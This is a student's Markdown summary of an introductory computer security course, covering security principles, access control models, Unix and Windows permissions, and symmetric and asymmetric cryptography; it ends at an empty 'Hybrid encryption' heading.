# [COM-301] Summary Computer Security

[TOC]

## 1.	Introduction

### Security Policy

When we design systems / programs we seek :

- **correctness** : for a given input, provide expected output
- **safety** : well-formed programs cannot have bad (even dangerous) outpus
- **robustness** : cope with errors (input and execution)


> **Computer Security** are the *properties* that a computer system must hold in the presence of a *resourced strategic adversary* :

- Which properties ? $\implies$ CIA (Confidentiality, Integrity, Availability) for the most traditional ones
  - **Condientiality** : prevention of unauthorized disclosure of information
  - **Integrity** : prevention of unauthorized modification of information
  - **Availability** : prevention of unauthorized denial of service
  - **Authenticity** : prove one is who one claims to be
  - **Anonymity** : not being recognizable among a group of people
  - **Non-repudiation** : one cannot deny having done a digital action
  - ...
- The resources strategic adversary?
  - The **adversary** is a malicious entity aiming at breaching the security policy
  - The adversary is **strategic**, he will choose the optimal way to use the resources to mount an attack that violates the security policy


> The **security policy** is a high level description of the security properties that must hold in the system in relation to **assets** and **principals**

- **Assets** (objects) : anything with value (data, files, memory, ...) that needs to be protected
- **Principals** (subjects) : people, computer programs, services

> The **threat model** describes the resources available to the adversary and their capabilities (observe, influence, corrupt, ...). It usually comes from the **threats** of the system (feared events) that the adversary wants to materialise by exploiting **vulnerabilities**. When those are exploited, it creates **harms**


When the properties hold, there are no vulnerabilities that can be exploited to materialise threats and no harms can be done.

---


### Securing a System

> A **security mechanism** is a mechanism used to ensure that the security policy is not violated by an adversary *within the threat model*

We secure a system by adding **security mechanisms** (e.g. Software (programs such as anti-virus), Hardware, Math (encryption), Distributed system (Bitcoin, distributing important files on different part of a system)). We need to put multiple security mechanisms, this can be done in two ways :

- **Defense in depth** : as long as one mechanism remains active, the security policy holds (e.g. two factor authentification (if someone finds your password, they still would need the mobile phone to validate. The inverse holds))
- **Weakest link** : if one mechanism fails, the security policy collapses (e.g. recovery password (they often ask personal questions. If you get it right, you can reset the password))


How do we show a system is secure? From the attacker point of vue, it is very easy to show that a system is weak (one way to violate a security mechanism is enough). It is easier to show that a system is secure under a specific threat model (a system is "secure" if an adversary contrained by a specifiy threat model cannot violate the security policy).

> A **security argument** is a rigorous that the security mechanisms in place are effective in maintaining the security policy (verbal or mathematical)


**Security engineering** is composed of 3 phases :

1. **High-level specification** : define the architecture, the security policy and the threat model
2. **Security design** : design security mechanisms and state a security argument
3. **Secure implementation** : implement the design making sure it is conform to the design model, security testing


## 2.	Principles of security

> **Security principles** are guidelines that help security engineers to design, build and select security mechanisms to secure computer systems

We will highlight 10 core principles that are followed nowadays

- **Economy of mechanism** : keep the security mechanism design as simple and small as possible

  > The **Trusted Computing Base** (**TCB**) is every component of the system on which the security policy relies upon

  - Minimise the risk of TCB corruption / weak points
  - If something goes wrong within the TCB, the security policy *may be violated*. If something goes wrong outside, the security policy doesn't rely on it and thus the security policy holds

- **Fail-safe defaults** : base decisions on permissions rather than exclusions (when there's an error, the system should fall back in a position where the security policy is fulfilled)

  - Use whitelists instead of blacklists
  - Do not try to fix customer errors (don't say a password / digicode / ... is "close enough to the real one, so we open the door")

- **Complete mediation** : every access to every object must be checked for authorisation
  
  - This is done via the **reference monitor** that mediates ALL actions from subjects (potential adversaries included) to objects (what they are trying to do) according to the security policy. The reference monitor keeps logs about those checks and requests. Problem : difficult to implement (performances of checking everything, time to check vs. time to use (you log into your computer once. If you send a mail or delete a file, the system doesn't ask you to identify again))
  
- **Open design** : the design should not be secret
  - "The design of a system should not require secrecy" – Kerckhoff (1883)
  - "One should design the system under the assumption that the enemy will immediately gain full familiarity with them" – Shannon (1949)
  - "Without the freedom the expose the system proposal to clever minds of diverse interests (in the community), the risk that significant points of potential weaknesses have been overlooked increases" – Baran (1964)
  - Linus' law :  "Given enough eyeballs, all bugs are shallow"
  
- **Separation of privileges** : not a single accident or breach of trust is sufficient to compromise the assets (not a single error should be enough to breach the system)
  - E.g. two factor authentication, multiple keys to open a safe in a bank, ...
  - Problems : availability (what if we need 4 different keys, so 4 people to open the safe), responsibility and complexity (doesn't comply with our first rule)
  
- **Least privilege** : every program and user should operate using the least set of privileges necessary to complete the job

  - Rights added as needed and discarded after use
  - Minimizes high privilege actions & interactions
  - "Need-to-know" principle : users only get to know things when they have to (e.g. for a visitor at EPFL, we give them Gest accounts that allow them to use the wifi, but not use the printers or some others things) $\implies$ Data minimisation principle (when collecting data, we should collect as few as possible)

- **Least common mechanism** : minimize the amount of mechanism common to more than one user and depend on by all users (db, common caches, ...)

- **Psychological acceptability** : human interface should be user-friendly so that users routinely and automatically apply the protection mechanisms correctly (e.g. the fact that websites ask for very complicated passwords is a burden for users. Users start to write them down or reuse old passwords (which reduces the security))

  - Hide complexity introduced by security mechanisms
  - Users should understand the link between a certain security mechanism and the security policy. If not, they could fail using (or miss use) the security mechanism (e.g., "what's the point of having two different passwords! Let's use the same one twice")
  - Mechanisms should be acceptable everywhere (e.g. cannot impose face recognition for everyone since there are some women that must have their faces covered 24/7)

- **Work factor** : compare the cost of cicumventing the mechanism with the resources of a potential attacker (e.g. for an attacker that wants to enter your house using a hammer, a simple wooden door would do the trick. However, someone with a "bélier" (outil pour défoncer les portes de chateaux-forts) could easily enter. Is it really worth it to protect against this?)

- **Compriomise recording** : reliably record that a compromise of information has occured in place of more elaborate mechanisms that completely prevent loss


## 3.	Access Control

> **Access control** is a security mechanism that ensures that only that only principals that are allowed to do something can do it. There are two main types of access control :
>
> - Discretionary access control (DAC)
> - Mandatory access control (MAC)


### Introduction

Access control (AC) is used every day! We have keys for cars and houses, cards for EPFL doors entry, ... In the digital world, AC is kind of the same thing :

>**Access control** : security mechanism that ensures that all accesses and actions on objects by principals are within the security policy

For example, can Alice read file `/users/Bob/readme.txt`, can Bob open a TPC socket to `http://www.abc.com/`or can Charlie write to row 15 of the table `GRADES`. If the event is within the security policy, then we say that the user is **authorized** (or **has permission**). Conversely, if the event it breaching the security policy, then we say that the user is **unauthorized** (or **access denied**)


AC is so important because it is the *first line of defense* used everywhere!

AC should **NEVER** be implemented as a **check soup** (e.g. below)

```python
if (action == read) and ((userID == Alice) or (userID == Bob)) :
  	open(file3.txt, 'r')
elif (action == write) or (userID == Bob) :
  	open(file3.txt, 'w')
else :
  print("The user does not have access to file3.txt")
```

This is hard to maintain. What you should do, are systematic calls to a **reference monitor** (e.g. below with Apache Shiro)

```java
if ( subject.isPermitted("user:delete:jsmith") ) {
  // delete the 'jsmith' user
} else {
  // don't delete 'jsmith'
}
```

---


### Discretionary Access Control

> In **discretionary access control** (**DAC**) the owner of a ressource defines the permissions (e.g. show photo only to friends on Facebook). DAC policies are often conceptualized as an **access control matrix**

> An **access control matrix** is an abstract representation of all **permitted** triplets of (subject, object, access right) within a system :
>
> - subjects (principals) : entity within a system (e.g. a user, a process, a service)
> - objects (assets) : ressources that subject may access or use (e.g. a file, a folder, a row in a database, a printer, a page in a website, ...)
> - Operations : how subjects can observe and/or alter objects (e.g. read, write, append, execute)

Here's an example of an access control matrix. The subjects are Alice and Bob, the objects are file1, file2 and file3 and the possibles operations are read and/or write :

|           |     file1      |     file2      |     file3      |
| --------- | :------------: | :------------: | :------------: |
| **Alice** | Read and write |       –        |      Read      |
| **Bob**   |       –        | Read and write | Read and write |

In reality, we have thousands of subjects and hundreds of users. For example. on my Mac (`/Users/wexus`), I have

```bash
find . -type f | wc -l						# outputs 450.000
```

450k files. Let's see how much memory would this matrix take with :

- 1 bit per file and 1 user :				56 [KB]
- 3 bits per file and 1 user :	 	   169 [KB]
- 3 bits per file and 10 users :        1.69 [MB]

Imagine what would happen with facebook with the millions of users they have! Two more issues with these maxtrices are that they are usually very sparse (many users do not have any rights on many files) and that they are error prone. This is why, in reality, we use representations of these matrices. A possible way is using an **access control list** (**ACL**). The above matrix would be represented as followed :

```
file1: { (Alice, read/write)}
file2: { (Bob, read/write)}
file3: { (Alice, read), (Bob, read/write)}
```

Notice that blanks are not stored! Here are (+) and (-) of ACLs :

- Positive things (+) :
  - can store close/with the ressource
  - easy to determine who can access a ressource
  - easy to revoke rights to a ressource
- Negative things (-) :
  - difficult to check at runtime (it is not always clear to the object who is the subject)
  -  difficult to audit all rights of a user (need to go through the whole list)
  - difficult to remove all permissions from a user


Systems often have too many subjects that come and go $\implies$ large ACLs. Subjects are often similar to each other (e.g. a student at EPFL has the same privileges as another student). We can thus assign permissions to **roles**, then assign roles to subjects and finally have subjects select an active role (they have the permissions of the active role). This is called **role based access control** (**RBAC**). RBAC also has some problems :

- role explosion : temptation to create fined grained roles, denying benefits of RBAC
- simple RBAC has limited expressiveness : problems with implementation of least privileges (e.g. my doctor can edit (my) files that other doctors can't)
- difficult to implement separation of duty : e.g. if two doctors are needed to authorize a procedure


A different alternative is **group based access control** (**GBAC**) based on the fact that some permissions are always needed together. We can thus assign permissions to access objects to **groups** and assign subjects to groups. Subjects have the permissions of all their groups. Here's an example of GBAC :



We also added **negative permissions**. Here, Alice *does not* have permission to access file1. Negative permissions should always be checked first (before group permissions) to check if someone has access to an object.


Another alternative is **capabilities** (associate permissions to subjects). Here's the representation of the above matrix :

```
Alice: { (file1, read/write), (file3, read) }
Bob: { (file2, read/write), (file3, read/write) }
```

Notice that blanks are not stored! Here are (+) and (-) of capabilites :

- Positive things (+) :
  - can store with the subject (portable)
  - easy to audit all subject permissions
  - delegating is "simple" (e.g. a teacher could give his Camipro to a student temporarily to have his rights)
- Negative things (-) :
  - Revoking permission on one object is hard (e.g. would be hard to revoke file3 permissions to everyone)
  -  transferability, once the capability is given, how can we prevent sharing?
  - authenticity, how to check?


In many cases we don't specify everytime who the suject is; this is called **ambient authority**.

> **Ambient authority** is used by a suject if for an action to succeed it **only** needs to specify the operation and the name(s) of the involved object(s)
>
> - example : `open("file1.txt", "w");`

In the above example, the subject is missing but understood (or infered) to be the process owner (the one executing the program). This is practical since we don't need to repeat the subject all the time (usability) but the least privileges principle becomes harder to enforce ($\implies$ confused deputy problem)

> The **confused deputy problem** refers to the fact that a privileged program (e.g. someone with high privileges on his camipro card) can be tricked to misuse its authority (e.g. a student asking a teacher his camipro to access a room where he supposedely left his backpack only to watch a film on the big screen instead without telling the teacher)

This is a real problem since ambient authority is used in many real systems, OS services, web servers, ... The solutions could be to re-implement AC in the privileged process, or let the privileged process check authorization for Alice (capabilities can help)


#### **Example** : file access control lists on Linux

Files have ACLs attached to them, an owner UID, a GID and 9 permission bits (read, write, execute, owner, group, others). Here's a representation of it using the following command on a UNIX terminal :

```bash
ls -l
```

```bash
~/Desktop/script-bourse-aux-bouquins » ls -l

total 32
-rw-r--r--@ 1 wexus  staff  3611 Nov 29  2019 PV131119.txt
-rw-r--r--@ 1 wexus  staff   404 Oct 20  2019 README.md
-rw-r--r--@ 1 wexus  staff  2328 Oct 16  2019 bourse-aux-bouquins-7578c51102b8.json
-rw-r--r--@ 1 wexus  staff   172 Nov 29  2019 bourse-aux-bouquins.md
drwxr-xr-x@ 2 wexus  staff    64 Sep 25 20:14 test/
```

And here's the explanation of what a line means :

- `<d|->(<r|w|x>)^9` :

  - the MSB is either `d` (for directory) or `-` for a file

  - the 9 remaining bits are separated in three triplets of 3 bits with values ranging between `r` (read), `w` (write), `x` (execute) and `-` (nothing). Each triplet represent a different entity/entities : bits 6 to 8 represent the permissions that `owner` has on the file/folder, bits 3 to 5 represent the permissions `group` has on the file/folder and bits 0 to 2 represent the permissions that `others` have on the file/folder. A few notes on the differences of the different permissions depending on if it is a file or a folder :

    |               | File                           | Folder                              |
    | ------------- | ------------------------------ | ----------------------------------- |
    | `r` (read)    | can read the file              | can list what's inside the folder   |
    | `w` (write)   | can edit the file              | can change what's inside the folder |
    | `x` (execute) | execute the file (e.g. `.exe`) | can `cd`in the folder               |

- the number after the permissions is the number of links (how many other pointers in the system points to this file/folder and can access it)

- the string following the links ("wexus") is the `owner` of the file/folder

- the string following the owner ("staff") is the `group`

- the number following the group is the `size` of the file/folder in bytes

- the triplet that follows is the `date` when the file/folder was last modified

- the last string is the `filename` (or name of the folder)

The owner can change the permissions of a file/folder using the `chmod <new_permissions> <filename>`. New permissions are the 9 permission bits encoded as a 3 digit base 10 number. For example, `rwxrw-rw-` would be encoded as follows : `rwxrw-rw-` $\implies$ `111 110 110` $\implies$ `766`. Note we can add a fourth digit at the beginning called the special bit (`suid`, `sgit`, `sticky`)


The `root user` is never denied access. The root user is a special user with id 0 that can access system files and perform special operations. It can access anything : almost all security checks are disabled because root is in the TCB! root is so powerful that you should never login as root, but only perform commands while taking temporarily his power (using the command `sudo`)

Sometimes when performing `ls -l`, instead of the typical `x` in the execute bit, we can see a `s` for the special bits `suid` and `sgid` assigned to a file/folder. When a file has this `s`, it is always executed as the owner. For example, this file would run as `root` permissions

```bash
ls -l /bin/passwd
-rwsr-xr-x. 1 root root 27768 Aug 20 2020 /bin/passwd
```

When the `sticky` bit is assigned (`chmod +t`), the file/folder enters a restricted deletion mode :

- for a directory : it prevents unprivileged users from removing or renaming a file unless they own the file (e.g. `/tmp` folder shared among all users. Users can only edit their own files)
- for a file : historically, it prevented a program from being moved from swap for fast load. Nowadays, linux ignores the bit


The other special user that we can have in UNIX that is interesting for security reasons is the `user Nobody` which is id -2, owns no files and belongs to no group. It is safer to execute code you do not know (particularly obfuscated code) and limits damage if they misbehave or get compromised.


#### **Example** : file access control lists on Windows

Similarly to linux, each object (file, registry keys, printers, ...) has a DACL and each process (or thread) has an **access token** with login user account (procecss "runs as" this user (ambient authority)), with all groups of which the user is a member (recursively) and all privileges assigned to these groups


---


### Mandatory Access Control

> In **mandatory access control**, there is a central entity that assigns permissions (e.g. banking, military, ...) to all assets in the system independently of their owners. The "owner" may not exist or have the power to set permissions against the policy

Access to and operations on ressources are determined by the security policy

> A **security model** is a design pattern, a way of reasoning about **security properties** in order to build security policies that ensure those properties.


#### Protecting confidentiality

In the **Bell-La Padula** (**BLP**) model, subjects $S$ and objects $O$ are associated to a **level** of confidentiality. Sujects access rights are defined by four attributes :

- Execute : $S$ cannot see or modify the object, but can run it
- Read : $S$ can only see $O$ (but not modify)
- Append : $S$ can add new lines to $O$ (but not read)
- Write : $S$ can see $O$, add content and modify it


> The **security level** of an object is a tuple consisting of a **classification** also called **label** (how secret the object is : e.g. "Top Secret", "Confidential", ...) and a **set of categories** (topic of the object : e.g. "Nuclear", "Cryptography", ...)
> $$
> SecurityLevel = (Classification, \{setOfCategories\})
> $$

The level function for objects is a rule called **dominance relationship** :

> **Dominance relationship** : A security level $(l_1, c_1)$ *dominates* $(l_2, c_2) \iff (l_1 \ge l_2 \and c_2 \sube c_1)$
>
> :information_source: Domination is transitive and has a top and bottom element (element that dominate any other element (top) and element that dominates only itself (bottom))

For the subjects, they have a **clearance level** (also sometimes called classification). The **clearance** is the maximum security level a subject has been assigned `clearance level(S_i)`. They might also go to lower security levels and have a **current security level** `current-level(S_i)`. Note that the curent level can *never* be superior to the clearance level


The BLP model uses those building blocks with a set of 3 rules :

- **Simple Security Property** (ss-property) :

  - if $(subject, object, w/r)$ is a current access $\implies$ $level(subject)$ dominates $level(object)$
  - this rule is a **no read up** (**NRU**) rule but doesn't say anything about writing down (the general could read a secret document, and write the content to a lower level, allowing a basic soldier to read it and thus breaking confidentiality)

  

- **Star Property** ($\large *$-property) :

  - if a subject has simultaneous "observe" (r, w) access to $O_1$ and "alter" (a, w) access to $O_2$ $\implies$ $level(O_2)$ dominates $level(O_1)$
  - this rule is a **no write down** (**NWD**) rule. If we add the ss-property, here's how the BLP model looks like

  

- **Discretionary Property** (ds-property) :

  - if an access $(subject, object, action)$ takes place, it must be in the access control matrix


> BLP : **Basic security theorem** : if all state transitions are secure, and the initial state is secure, then every subsequent state is secure regardless of the inputs


But the properties are not enough! Assume we have two subjects such that $level(S_1) = TS$  (top secret) and $level(S_2) = C$ (classified) such that $TS > C$. The following sequence would leak 1 bit of information :

1. $S_2$ creates object $O \implies level(O) = C$
2. $S_1$ can read at $C$ level (allowed by ss-property) and either :
   - change the object level $\implies level(O) = TS$
   - leave the object level untouched $\implies level(O) = C$
3. $S_2$ attempts to access $O$ in $C$ level $\implies$ success or failure depending on what $S1$ did $\implies$ 1 bit of information leaked

> This is called a **covert channel**. A covert channel is any channel that allows information flows contrary to the security policy :
>
> - storage channel : e.g. shared counters, ID fields, file meta-data, ...
> - timing channel : e.g. use of CPU, load to memory (cache), queuing time, ...

The more resources are shared, the harder it is to eliminate covert channels (least common mechanism principle). A solution to that is **isolation** (communication iwth low level not possible) or add noise to communications


Here's the current situation of the BLP model. There's is a problem, the general cannot command his troups to attack after reading the new informations stored in the secret file!



To solve this, we introduce a new action : **declassification** (removing a classification label). Declassification is typical and necessary (giving orders)

---


#### Protecting integrity

Sometimes, confidentiality is not the primary security property the client needs, but integrity is more important (a.k.a knowing if an adversary influenced input a, or switched a function for another one, or changed the result, or ran the operation more times than allowed, ...). The model that helps us reason about integrity ais called the **BIBA model**. As the BLP model, we have subjects, objects and two operations : read (observe) and write (modify). The BIBA model follows two key rules :

- **simple integrity** (no read-down) : protects higher integrity principals from being corrupted by lower integrity level data
- **$\large *$-integrity** (no write-up) : prevents lower integrity principals from corrupting high integrity data


Again, these rules are not enough! (cannot really operate). Let's first look at the **low-water-mark policy for subjects** (currently, a high integrity principal cannot read a lower level file) : when accessing an object, the subject's current level is lowered to $\min(current-level(S), level(O))$. This could help for example mitigating impact of a network Trojan (same as executing an unknown script as sandbox user (dirty infos on safe environment)). This method will introduce a label creep, all subjects will soon be low-integrity. Another variant is the **low-water-mark for objects** (currently, a low level integrity principal cannot write to a higher integrity file) : once an object has been written to by a subject, it assumed the lowest level of the boject or subject. Note that the higher subject will not be able to read the file anymore (first rule)


BIBA also allows another action : **invoke** (delegation of permission). We can invoke in two directions :

- simple invocation : only allow subjects to invoke subjects with a label they dominate (protects high integrity data from misuse by low integrity principals, but what level is the input?)
- controlled invocation : only allow subjects to invoke subjects that dominate them (prevents corruption of high integrity data, but hard to detect polluting information)


> **Sanitization** is the process of taking objects with low integrity and lifting them up to high integrity. 
>
> :warning: Sanitization problems are the root cause of large classes of real-world security vulnerabilities as malformed low (user) input can influence high data and code

Sanitization should follow the fail-safe default.

Finally, here are some key principles to follow when reasoning about integrity :

- separation of duties : require multiple principals to perform an operation
- rotation of duties : allow a principal only a limited time on any particular role and limit other actions while in this role
- security logging : tamper evident log to recover from integrity failures. Consistency of log across multiple entities is key

---


#### Multi-properties

Let's try to have a bit of both (confidentiality and integrity)! We will study the **Chinese Wall Model** based on a real life example (handling "conflict of interest" in the financial sector in the UK). The chinese wall model relies on 3 rules :

1. all objects are associated with a label denoting their origin
2. the originators define "conflict sets" of labels
3. subjects are associated with a history of their accesses to objects, and in particular their labels

The access rule is simple : a subject can access an object (either read or write) if the access does not allow an information flow between items with labels in the same conflic sets. In the following example, Alice starts by accessing files from Pepsi, then Microsoft Invest. If she then tries to access some of Coca-cola's files, the access will be denied (because Pepsi and coca-cola are in the same conflict set. So someone can access at most one of them to deny information flow)



What makes this system complicated is the notion of **indirect flows** : if Alice is assigned to Pepsi and Bob to Coca-cola and IBM. Then Alice cannot access file of IBM eventhough she doesn't have direct conflict with it. She cannot access it because that would allow information flow between Pepsi and Coca-cola (communication between Alice and Bob)

This means that sanitization is also necessary for buisnesses 


## 4.	Applied Cryptography

### Introduction

> A **cryptography primitive** is a cryptographical building block used to preserve a security property

When a message can be read by anyone (e.g. Alice sends a "Hello!" to Bob (without encryption), then an advarsary the has access to the network can easily read the message), we call such a message a **plaintext**. A plaintext doesn't ensure confidentiality. To solve this issue, Alice should use a **cryptographic algorithm** to transform the plaintext into a **ciphertext** in such a way that an adversary on the medium cannot read (understand) the message anymore. This implies that Bob knows some information the advarsary doesn't (otherwise, he wouldn't be able to read it as well). The process of transforming a plaintext into a ciphertext is called **encryption**. The converse is called **decryption**

---


### History of encryption

A very old encryption system is the **Caesar's cipher** (50 BC) works by shifting the alphabet (3 for Julius Caesar) and rotate the alphabet. For example `hello world` becomes `khood zruog`. Decryption is extremely simple


Another old example is the **Kamasutra cipher** (400 AD). The idea is to choose a key which is a permutation of the $n$-alphabet and cut it in the middle (thus having two $n/2$ segments). Superpose one on top of the other and encrypt/decrypt by substituting by the opposite letter. For example, using the key `HOWBUGIACRYEVZXPJQMSNTFDKL`, the segments become
$$
HOWBUGIACRYEV \\ ZXPJQMSNTFDKL
$$
The plaintext `hello world` would be encrypted as `zkvvx pxfvy`. Decryption is also simple using **frequency analysis** (most frequent letter in french is `e` for example)


A **one time pad** (**OTP**) is the only algorithm we have that provides perfect secrecy (given the cipher text, we can't recover the plaintext). For Alice to communicate message `m` to Bob, the first thing they need is to share a **key** `r` (string of random bits as long as the message, thus $len(m) = len(r)$). Alice encrypts the message using the $\oplus$ function (xor function)
$$
Encryption(m) = m \oplus r
$$
Bob can then decrypt the message using the $\oplus$ function again
$$
Decryption(Encryption(m)) = m =  Encryption(m) \oplus r
$$
This works because applying two times $\oplus$ gives us back the original input

> :warning: the key `r` must **never** be used more than one time because an adversary could use frequency analysis to reveal where $msg1$ and $msg2$ differ
> $$
> (msg1 \oplus r) \oplus (msg2 \oplus r) = (msg1 \oplus msg2)
> $$


There are a few important downsides to OTP : for example, keys must be as long as the messages (nowadays USBs contain several GB) and pre-shared! Keys must also be random and cannot be reused. Finally, this encryption method provides no integrity

---


### Symmetric encryption

> In **symmetric encryption**, the encryption and decryption of ciphertext are done using *the same key*


#### Stream Ciphers (confidentiality)

 Imagine Alice wants to send a message `m` to Bob. They need to pre-share a key `k` which has a fixed size (thus different from OTP). To encrypt `m`, alice would have to procede as follows :
$$
Encryption(m) = m \oplus r
$$
where $len(r) = len(m)$ and `r` is called a **random vector**. We produce `r = stream(k, IV)` with two inputs : the key `k` and an **initialisation vector** `IV` (which can be public). When Alice is ready to send her message to Bob, she sends the tuple `(IV, Encryption(m))`. To decrypt the message, Bob would use the same idea as OTP by following the following procedure :
$$
m = Encryption(m) \oplus stream(k, IV)
$$
The `IV` is a fixed-sized input which needs to be *unpredictable* (but not necessarily secret) used to generate `r`.

> Security argument : unless one knows the key, they cannot distinguish it from a random string

> :warning: `IV` should never be reused under the same key for the same reasons as OTP
> $$
> Encryption(m) = m \oplus stream(IV, k) \\
> Encryption(m') = m' \oplus stream(IV, k)
> $$
> Then this implies that
> $$
> Encryption(m) \oplus Encryption(m') = m \oplus m'
> $$
> which could reveal information using frequency analysis

This method is an improvement over OTP, but still has some flaws : `k` must be pre-shared, `k` must be random and that the method provides no integrity. Note that stream ciphers have low diffusion (all information of a symbol is contained in one encrypted symbol) and are susceptible to insertions/modifications. For example, let's say that Lou, an adversary, knows that the message `m` is of the form "Pay $xxx$ to Bob". If she intercepts the tuple $(IV, Encryption(m))$, she could do the following :
$$
Encryption(m) \oplus \text{"Bob"} \oplus \text{"Lou"} = 
m \oplus stream(IV, k) \oplus \text{"Bob"} \oplus \text{"Lou"} = \\
((\text{"Pay } xxx \text{ to Bob"} \oplus \text{"Bob"}) \oplus \text{"Lou"}) \oplus stream(IV, k) = \\
((\text{"Pay } xxx \text{ to 000"}) \oplus \text{"Lou"}) \oplus stream(IV, k) = \\
(\text{"Pay } xxx \text{ to Lou"}) \oplus stream(IV, k) = 
Encryption(m')
$$
This works since $\oplus$ is associative and commutative (and by the fact that $a \oplus a = 0$ and $0 \oplus a = a \space \forall a \in \N$. Note that $m'$ would read "Pay $xxx$ to Lou" which completely breaks integrity


#### Block Ciphers (confidentiality)

Imagine Alice wants to send a message `m` to Bob. They need to pre-share a key `k` which has a short size (e.g. 128 bits). To encrypt a message, we use an encryption algorithm that takes both `m` and `k` as inputs and outputs a ciphertext `c = Encryption(m)`. To decrypt a cipher `c`, we use the inverse algorithm of encryption, giving `c` and `k` as inputs and returning `m`

> Security argument : without `k`, a ciphertext block looks the same as a random block

:information_source: This method only works for short messages (e.g. 128 bits). To use it on longer messages, we will have to break `m` into chuncks and encrypt multiple times. There are multiple possible ways, called **modes of operation**, to do this operation

:information_source: Block ciphers have a high diffusion (information from one plaintext symbol is diffused into several ciphertext symbols) and good immunity to tampering (difficult to insert symbols without detection). On the other hand, block ciphers are slow and propagate errors (in some mode of operation, errors affect several bits/blocks)

---

The easiest mode of operation is called **Electronic code book** (**ECB**) : it directly encrypts/decrypts multiple blocks, thus
$$
m = m_1 m_2 \dots m_n
$$
Such that $len(m_i) = len(k) \space \forall i \le n$. We then use the algorithm $n$ times to get $n$ outputs $(c_1, c_2, \dots, c_n)$. Finally, we construct the ciphertext by concatenation again
$$
c=c_1c_2 \dots c_n
$$
:warning:  There's an enormous flaw about using ECB : $m_i = m_j \implies c_i = c_j$ which means that the output `c` is not so different than the input `m`

---

Another mode is called **Cipher block chaining** (**CBC**) : the idea is to propagate information across blocks
$$
m = m_1 m_2 \dots m_n
$$
We start with an initialisation vector `IV` and we encrypt a block using information from the previous one :
$$
c_0 = IV \\ c_i = Encryption(k, m_i \oplus c_{i-1})
$$
Then we construct the ciphertext `c`
$$
c=c_1c_2 \dots c_n
$$
Bob can then decrypt the ciphertext using the following method :
$$
c_0 = IV \\ m_i = Decryption(k, c_i) \oplus c_{i-1}
$$
 The problem with CBC, is that we need the previous decoded part the decode the next one (slow)

---

Another mode is called **Counter mode** (**CTR**) : the idea is to turn a block cipher into a stream cipher. Remember that the encryption/decryption methods for a stream cipher is
$$
Encryption_{stream}(k, m) = m \oplus stream(IV, k) \\
Decryption_{stream}(k, c) = c \oplus stream(IV, k)
$$
Again, we have a message `m` and a cipher `c`
$$
m = m_1 m_2 \dots m_n \\
c=c_1c_2 \dots c_n
$$
CTR uses a **Nonce** as a base (number used only once) and changes it every time using a counter. The encryption/decryption methods for CTR is as follows :
$$
c_i = Encryption(k, Nonce + i) \oplus m_i \\
m_i = Encryption(k, Nonce + i) \oplus c_i
$$
Note that we don't need a decryption algorithm

---


#### Message authentication code (Integrity)

 Imagine Alice wants to send a message `m` to Bob. They need to pre-share a key `k` which has a fixed size. Alice sends a tuple containing `m` and a **MAC** (message authentication code)
$$
Alice \rightarrow Bob : (m, MAC(k, m))
$$

> Security argument : it is hard to generate $(m, MAC(k,m))$ without knowing $k$


We can then try to turn a block cipher into a MAC. Our first method will be **CBC-MAC** :
$$
c_0 = 0 \\ c_i = Encryption(k, m_i \oplus c_{i-1}) \\ MAC(k, m_1 \dots m_x) = c_n
$$
Thus Alice would send the tuple $(m, MAC(k, m_1 \dots m_x)) = (m, MAC(k, c_n))$

:information_source: generally, we take `c_0 = 0` although any fixed `IV` would work

:information_source: CBC-MAC is only secure if the length of `m` is known

---


#### Encrypt-and-MAC (mixed)

This method consists of encrypting and then compute the MAC



This method provides integrity on the plaintext (can be verified using MAC) but not integrity on the ciphertext (need to decrypt it to know if valid or not)

:warning: This method may reveal information about the plaintext (repeated msg (recall the `IV` of the MAC is fixed (can be solved with a counter)))

---

#### Mac-then-Encrypt (mixed)




This method provides integrity on the plaintext (from the MAC) and no information leak on the plaintext since it is encrypted. However, it provides no integrity on the ciphertext (it is, in theory, possible to change ciphertext and have a valid MAC), we need to decrypt it to know if it's valid

---

#### Encrypt-then-MAC (confidentiality & integrity)

If we want both confidentiality and integrity, this is the way to do it!



The integrity of the ciphertext can be verified using the MAC, the integrity of the plaintext can be verified and no information on the plaintext is leaked since it's encrypted

|                      | Integrity plaintext | Integrity ciphertext | Plaintext leak secure? |
| -------------------- | :-----------------: | :------------------: | :--------------------: |
| **Encrypt-and-MAC**  |         yes         |          no          |           no           |
| **Mac-then-Encrypt** |         yes         |          no          |          yes           |
| **Encrypt-then-MAC** |         Yes         |         yes          |          yes           |

---

#### AEAD

In modern cryptography, we use **authenticated encryption with associated data** (**AEAD**) to avoid those home-made combinations



---


### Hash functions

A **hash function** $H$ is a keyless method to trasnform a message $m$ (any length) into a fixed short-length output $h$. Anyone that has the message $m$ can compute the hash $h$ from it

Cryptographic hash functions have 3 security properties :

- **Pre-image resistance** : given $H(m)$, it is difficult to get $m$
- **Second pre-image resistance** : given $m$, difficult to get $m'\ne m$ such that $H(m')=H(m)$
- **Collision resistance** : difficult to find any $m, m'$  such that $H(m) = H(m')$

Hash functions are useful for digital signatures, building HMAC, password storage, file integrity, secure commitments, secure logging, blockchain, ...

---


### Asymetric encryption

Instead of having one shared key, Alice and Bob both have a **public key** (**PK**) and a **private key** (or **secret key** (**SK**)). The public key is... well... public and stored on a server online. Private keys should **never** be shared

For Alice to send a message to Bob, she can request Bob's public key from the server, and then encrypt the message with Bob's public key. Bob decrypts the message using his secret key (thus Bob is the only one able to decrypt the message) :
$$
c = Encryption(m, PK_{Bob}) \\
m = Decryption(SK_{Bob}, c)
$$
In order to guaranty integrity, we use the concept of **digital signatures**. Alice could send the tuple $(m,s= Sign(SK_{Alice}, m))$ to Bob. To verify that Alice sent the message, Bob can request Alice's public key and use $Verify(m, s, PK_{Alice})$ which return true iff the encryption was done with the private key associated with $PK_{Alice}$

> Security argument : one cannot "forge" a signature $(m, s, PK)$ that verifies without knowing $SK$

These digital signatures ensure two properites :

- integrity of the message & authenticity of the sender
- Non-repudiation (before MACs could be generated either by Alice or Bob, now, each signature is different)

All together, here's what Alice would send :
$$
(Encryption(m, PK_{Bob}), Sign(m, SK_{Alice}))
$$
:information_source: Asymetric cryptography is computationally costly compared to most symmetric key algorithms, thus signing and encrypting is slow! In practice, we use :

- digital signatures on hash functions
- hybrid encryption

---

#### Digital signatures on hash functions (integrity)

:information_source: In practice, we sign hash of messages (way faster than the whole message)
$$
h = H(m) \\
\text{Alice sends : } (m, s=Sign(h, SK_{Alice}))
$$
At reception, Bob does the following :
$$
h'=H(m) \\
Verify(PK_{Alice}, s, h')
$$

---

#### Hybrid encryption

